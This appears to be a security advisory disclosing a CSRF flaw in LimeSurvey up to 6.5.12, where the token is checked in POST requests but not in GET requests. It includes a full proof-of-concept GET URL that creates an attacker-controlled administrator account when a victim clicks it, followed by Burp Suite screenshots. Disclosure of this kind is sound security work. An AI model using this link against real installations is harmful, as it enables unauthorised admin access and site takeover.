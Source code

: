 Lime Survey <= 6.5.12 is vulnerable to Cross Site Request Forgery (CSRF). The YII_CSRF_TOKEN is only checked when passed in the body of POST requests, but the same check isn't performed in the equivalent GET requests. To exploit this vulnerability an attacker could send the following link to the victim: 

http://example.com/index.php?r=userManagement/applyedit&YII_CSRF_TOKEN=&User%5Buid%5D=&User%5Busers_name%5D=ATTACKER_USERNAME&User%5Bfull_name%5D=ATTACKER_NAME&User%5Bemail%5D=ATTACKER_EMAIL&expires=EXPIRATION_DATE&preset_password=1&User%5Bpassword%5D=ATTACKER_PASSWORD&password_repeat=ATTACKER_PASSWORD&random_example_password=vDfSU49xlEeG&YII_CSRF_TOKEN=

When the victim clicks the link, a new administrative account is created with the attacker's password:

1. CSRF Token checked in the POST request

![image](https://github.com/sysentr0py/CVEs/assets/71945854/40f39095-dbc8-4413-af0c-ffd2a36b772a)

2. CSRF Token isn't checked in the GET request

![image](https://github.com/sysentr0py/CVEs/assets/71945854/990d505e-3009-4d30-8a00-951a09b3bc56)

3. CSRF PoC with Burp Suite

![image](https://github.com/sysentr0py/CVEs/assets/71945854/dd95012b-3788-4d7c-a2a5-211200ab0df8)


4. CSRF PoC2 with Burp Suite

![image](https://github.com/sysentr0py/CVEs/assets/71945854/c1a4706e-a480-460e-8553-8baa11a23549)
